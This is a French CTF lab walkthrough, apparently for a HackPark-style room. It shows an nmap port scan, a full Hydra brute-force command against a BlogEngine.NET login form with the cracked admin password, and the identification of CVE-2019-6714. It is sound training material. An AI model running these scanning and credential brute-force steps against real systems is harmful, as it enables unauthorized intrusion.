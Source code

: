 # Task 1 

Commencer par scanner les ports disponibles avec un nmap

``` nmap -sS -sV -Pn [IP_MACHINE] ```
 
**PORT     STATE SERVICE**
**80/tcp   open  http**
**3389/tcp open  ms-wbt-server**

## Whats the name of the clown displayed on the homepage?

Télécharger l'image 
Faire une recherche google Lens 

**pennywise**

# Task 2
## What request type is the Windows website login form using?

Faire un click droit sur l'élement "Save Comment"
Aller sur le petit encart "Event" et regarder la méthode d'envoi 

ou 

Regarder l'URL 

**POST**

## Guess a username, choose a password wordlist and gain credentials to a user account!

```hydra -l <username> -P /usr/share/wordlists/<wordlist> [IP_MACHINE] http-post-form ```

Dans un premier temps, faire un premier essai avec aun username et mdp bidon "admin:admin" pour avoir un champ "Login failed", ensuite aller inspecter la requête :

Sur Firefox : 

Clic droit > Inspect > Network > Reload > [Selectionner la requête POST] > Request > Raw > Select All > Copier 

Remplacer les valeurs "username" et "password" par ^USER^ & ^PASS^ 

Ce qui donne la commande : 

``` hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.12.103 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:**VIEWSTATE=IL%2Fw%2BMLR5jEVI0yJkC%2BYgcY4FTz8AUiWho9zztyLZvCK38j8JdiBB3P0PIgGoYwKgtcjaRuRt5esdx3TKFKE7Rjd3PTIslqODQy7kgpD0yB6z4tQwNh%2FwXjJ5USFcRAkTYY5u4oAtzlaO6osFJAIZgtomK%2BjBWyHSUFAIX4lkO9NVPaQQtm%2FFVNDMLeJIua5XSXvqClwl8u8Fz5eW%2FlCSgnrW1ruj2qNPUuIDdZxFgguE3MNrAt1c3R19YDxzDOCv0tDX1Pygytakpsm61HW4QBuL0TgVYtZj28O4sCxw7xOLbnhzqclaFUFXYCTq4Ypi98gXotUFkM9xo6hZ8e9v6pAdbUAfNCUvSEaUtqooVCFO2M1&**EVENTVALIDATION=2ybWsbTEu6xcRITPtJw%2Bx9iETJ40YkYhtLy8NgsEDvpUllAR699UdRX0LmwYwzbTLpx18XTuQofMWxiGVtQJKDyhRtPVk%2FxqnLrG68XcXO6MtO4ucNeUI4P7%2BKm6KKluCE6fA7qJ1gmVdboaYXgO%2BZor6XltI4PNYJbGcXQgI7aghExT&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" ```
 
**[80][http-post-form] host: 10.10.12.103   login: admin   password: 1qaz2wsx**

# Task 3
## Now you have logged into the website, are you able to identify the version of the BlogEngine?

Menu Gauche > About 

**Version: 3.3.6.0**

## Whats is the CVE 

Aller sur Exploit DB > Chercher " BlogEngine.NET 3.3.6 " > Regarder celle l'exploit vérifié > "BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution "

**CVE-2019-6714**

```